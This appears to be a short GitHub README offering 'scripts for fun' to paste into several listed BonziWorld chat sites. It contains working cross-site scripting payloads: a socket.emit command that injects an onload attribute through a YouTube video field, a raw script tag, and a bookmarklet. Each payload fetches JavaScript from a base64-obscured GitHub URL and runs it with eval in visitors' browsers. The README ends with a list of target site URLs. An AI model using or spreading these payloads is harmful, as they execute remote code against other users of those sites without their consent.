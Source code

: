 # ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into the websites list and
paste this script<br>
`socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`<br>
and if you have sanitize off do this<br>
`<script>fetch(atob('aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v')+'???'+atob('Lmpz')).then(r=>r.text()).then(t=>eval(t))</script>`<br>
if you'd like you wanna press it from the bookmark<br>
`javascript:const%20jvnm%20%3D%20prompt%28%22Enter%20script%20name%20%28UPPERCASE%20ONLY%29%3A%22%29%3B%20const%20vidid%20%3D%20prompt%28%22YTVideo%20id%2C%20%28OPTIONAL%29%22%29%3Bsocket.emit%28%27command%27%2C%20%7B%20list%3A%20%5B%27youtube%27%2C%20%60%22%24%7Bvidid%7D%22%20onload%3D%22fetch%28atob%28%27aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v%27%29%29%2Bjvnm%2Batob%28%27.mpz%27%29%29.then%28r%3D%3Er.text%28%29%29.then%28t%3D%3Eeval%28t%29%29%22%20u%3D%22%60%5D%7D%29%3B`
# What are the websites?
https://bonziworld-classic-plus-plus-edition-mlcr.onrender.com<br>
https://bonziworld-revived-1.onrender.com<br>
https://seamusmario-s-bonziworld-revived-2020-qsal.onrender.com<br>
https://bonziworld-revived-2-sll4.onrender.com<br>
https://marginworld.onrender.com<br>
https://bonziworld-revived.zapto.org<br>
https://bonziworldberylicarus.onrender.com<br>
https://bonziworld-revived-2025.onrender.com
